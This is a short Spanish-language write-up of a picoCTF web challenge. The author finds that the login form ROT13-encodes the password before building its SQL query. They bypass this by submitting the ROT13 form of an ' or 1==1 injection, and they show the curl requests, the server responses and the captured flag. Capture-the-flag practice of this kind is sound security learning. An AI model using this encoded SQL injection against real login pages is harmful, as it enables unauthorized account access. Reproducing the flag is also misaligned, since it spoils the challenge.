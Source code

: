 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!

## Solución

En este nivel ya no tenemos un campo de login, para realizar algún tipo de inyección SQL, pero si tenemos un campo de password, que al activar el campo debug, nos permite ver que todas las contraseñas ingresadas están de manera encriptada, en este caso al probar con varios métodos de encriptación se puede ver que es **ROT13** el tipo de encriptado, y que cada contraseña que ingresamos se transforma en **ROT13**, por lo que si ingresamos una inyección SQL, de tipo **' or 1 == 1** esta resulta convertida en **' be 1 == 1**, peeero, si nosotros la ingresamos como **' be 1 == 1**, el resultado sería **' or 1 == 1** y eso efectivamente si funciona.

```bash
mrfear@nightmare ~ % curl -s https://jupiter.challenges.picoctf.org/problem/29132/login.php -d "username=admin&password=hola;&debug=1"
<pre>password: hola;
SQL query: SELECT * FROM admin where password = 'ubyn;'
</pre><h1>Login failed.</h1>%                                                                            mrfear@nightmare ~ % echo "hola" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
ubyn
mrfear@nightmare ~ % curl -s https://jupiter.challenges.picoctf.org/problem/29132/login.php -d "username=admin&password=' or 1==1;&debug=1"
<pre>password: ' or 1==1;
SQL query: SELECT * FROM admin where password = '' be 1==1;'
</pre>%                                                                                                  mrfear@nightmare ~ % echo "' be 1==1;" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
' or 1==1;
mrfear@nightmare ~ % echo "' or 1==1" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
' be 1==1
mrfear@nightmare ~ % curl -s https://jupiter.challenges.picoctf.org/problem/29132/login.php -d "username=admin&password=' be 1==1;&debug=1"
<pre>password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}</p>%                           mrfear@nightmare ~ %

```

## Bandera
picoCTF{3v3n_m0r3_SQL_06a9db19}

## Notas

## Referencias
